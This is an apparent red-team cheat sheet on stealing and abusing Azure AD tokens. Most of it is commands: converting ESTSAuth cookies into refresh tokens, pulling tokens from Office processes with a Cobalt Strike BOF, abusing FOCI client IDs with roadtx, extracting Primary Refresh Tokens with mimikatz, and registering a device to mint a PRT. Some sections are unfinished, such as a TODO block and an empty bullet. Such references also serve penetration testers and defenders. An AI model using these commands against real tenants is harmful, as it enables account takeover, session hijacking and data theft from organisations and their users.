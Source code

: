 # Azure AD Tokens


## Access Token

Decode access tokens: [jwt.ms](https://jwt.ms/)

* Request an access token using a service principal password
    ```ps1
    curl --location --request POST 'https://login.microsoftonline.com/<tenant-name>/oauth2/v2.0/token' \
    --header 'Content-Type: application/x-www-form-urlencoded' \
    --data-urlencode 'client_id=<client-id>' \
    --data-urlencode 'scope=https://graph.microsoft.com/.default' \
    --data-urlencode 'client_secret=<client-secret>' \
    --data-urlencode 'grant_type=client_credentials'
    ```
* Use an access token
    ```ps1
    # use the jwt
    $token = "eyJ0eXAiO..."
    $secure = $token | ConvertTo-SecureString -AsPlainText -Force
    Connect-MgGraph -AccessToken $secure

    # whoami
    Get-MgContext
    Disconnect-MgGraph
    ```


## Refresh Token

* Requesting a token using credentials
    ```ps1
    TODO
    ```
* 


### Get a Refresh Token from ESTSAuth Cookie

`ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`.

```ps1
TokenTacticsV2> Get-AzureTokenFromESTSCookie -ESTSAuthCookie "0.AS8"
TokenTacticsV2> Get-AzureTokenFromESTSCookie -Client MSTeams -ESTSAuthCookie "0.AbcAp.."
```


### Get a Refresh Token from Office process

* [trustedsec/CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)
```ps1
load bofloader
execute_bof /opt/CS-Remote-OPs-BOF/Remote/office_tokens/office_tokens.x64.o --format-string i  7324
```


## FOCI Refresh Token

FOCI allows applications registered with Azure AD to share tokens, minimizing the need for separate authentications when a user accesses multiple applications that are part of the same "family."

* [secureworks/family-of-client-ids-research/](https://github.com/secureworks/family-of-client-ids-research/blob/main/scope-map.txt) - Research into Undocumented Behavior of Azure AD Refresh Tokens

**Generate tokens**   

```ps1
roadtx gettokens --refresh-token <refresh-token> -c <foci-id> -r https://graph.microsoft.com 
roadtx gettokens --refresh-token <refresh-token> -c 04b07795-8ddb-461a-bbee-02f9e1bf7b46
```

```
scope               resource                                client                              
.default            04b07795-8ddb-461a-bbee-02f9e1bf7b46    04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    1950a258-227b-4e31-a9cf-717495945fc2    1950a258-227b-4e31-a9cf-717495945fc2
                    https://graph.microsoft.com             00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    https://graph.windows.net               00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    https://outlook.office.com              00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
Files.Read.All      d3590ed6-52b3-4102-aeff-aad2292ab01c    d3590ed6-52b3-4102-aeff-aad2292ab01c
                    https://graph.microsoft.com             3590ed6-52b3-4102-aeff-aad2292ab01c
                    https://outlook.office.com              1fec8e78-bce4-4aaf-ab1b-5451cc387264
Mail.ReadWrite.All  https://graph.microsoft.com             00b41c95-dab0-4487-9791-b9d2c32c80f2
                    https://outlook.office.com              00b41c95-dab0-4487-9791-b9d2c32c80f2
                    https://outlook.office365.com           00b41c95-dab0-4487-9791-b9d2c32c80f2
```


## Primary Refresh Token

* Use PRT token
    ```ps1
    roadtx browserprtauth -prt roadtx.prt -url http://www.office.com
    ```


### Extract PRT v1

```ps1
mimikatz # sekurlsa::cloudap
mimikatz # sekurlsa::dpapi
mimikatz # dpapi::cloudapkd /keyvalue:<key-value> /unprotect
roadtx browserprtauth --prt <prt> --prt-sessionkey <clear-key> --keep-open -url https://portal.azure.com
```


### Extract PRT on Device with TPM

* No method known to date.


### Generate a PRT by registering a device

```ps1
# Get correct token audience
roadtx gettokens -c 29d9ed98-a469-4536-ade2-f981bc1d605e -r urn:ms-drs:enterpriseregistration.windows.net --refresh-token file

# Registering device
roadtx device -a register -n <device-name>

# Request PRT 
roadtx prt --refresh-token <refresh-token> -c <device-name>.pem -k <device-name>.key

# Use a PRT
roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
```


## References

* [Hacking Your Cloud: Tokens Edition 2.0 - Edwin David - April 13, 2023](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)
* [Microsoft 365 Developer Program](https://developer.microsoft.com/en-us/microsoft-365/dev-program)